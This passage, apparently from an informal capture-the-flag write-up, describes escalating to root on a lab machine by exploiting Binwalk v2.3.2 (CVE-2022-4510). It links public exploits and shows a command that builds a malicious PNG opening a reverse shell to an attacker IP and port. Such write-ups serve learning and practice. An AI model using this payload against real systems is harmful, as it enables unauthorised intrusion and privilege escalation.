 ```
cat /tmp/new_file 
```

I guess I can have a bash ... or put something like "system chmod u+s" or bash -p.. or something
SO ... when I put cat i have priviledges.. but this is not working :((((((



FKN SHT...
```
inotifywait --event access /tmp/new_file && touch /home/emily/test

```

FKN SHT...

I was thinking that if I make this command the file will be owned by the root... and NOOOO !!!
```
-rw-r--r-- 1 emily emily       0 Sep 15 11:32 test
```

Lets inspect a little  on this binary

```
/usr/local/bin/binwalk
```
This is the version
```
Binwalk v2.3.2
```
Here we have some explanations
https://www.exploit-db.com/exploits/51249


and another one 

https://github.com/adhikara13/CVE-2022-4510-WalkingPath


Ok i have the exploit on the victim machine via python server... now i must use it 


```
python exploit_generator.py reverse input.png 192.168.0.100 4444
```

This gives you a png file ... and then I putted it on the shrunk folder... 

and finally im root.

This wasn't easy for me and I have to search some hints... but I did my best !!!

